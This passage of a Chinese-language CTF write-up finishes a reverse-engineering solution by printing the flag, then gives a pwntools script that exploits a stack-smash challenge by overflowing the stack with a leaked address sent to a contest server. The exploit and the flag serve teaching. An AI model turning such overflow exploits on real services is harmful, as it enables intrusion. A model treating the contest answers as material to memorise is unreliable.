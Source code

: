 ```c++
        }
    }
}
```

最后，通过`qword_4500`计算`flag`:

```c++
for(int i = 0; i < 61; i++)
    printf("%c", dis[qword_4500[i]] / 3);
```

我们得到了`flag`：`WHUCTF{A1g0R1tHm_1S_FvN_9587FF6F-1D83-437C-BAD8-A46E2F85B24A}`

### ~~pe_format~~

`RE`出多了一道题，本来准备放的，但考虑到`@secsome`大佬把逆向题`AK`了，就不再放出来送分了...

(话说`@secsome`大佬好像还去打了`ACM`新生赛

## Pwn

### ssp

`CTF-Wiki`有很详细的解释，不过多赘述（[花式栈溢出技巧 - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#stack-smash)）

题目很友好，把`flag`所在的地址给了出来，所以我们只需要一路覆盖到`argv[0]`即可

我们可以采用偷懒的做法，从`1`循环到`128`，看看溢出多少可以覆盖到`argv[0]`

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("ssp_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("175.178.248.28", 10045)

    return r

def main():
    r = conn()
    r.recvuntil(b'Magic: ')
    magic = int(r.recv(14), 16)
    r.recvuntil(b'size:')
    r.sendline(b'-1')
    r.recvuntil(b'content:')
    r.sendline(p64(magic) * 32)

    r.interactive()


if __name__ == "__main__":
    main()
```
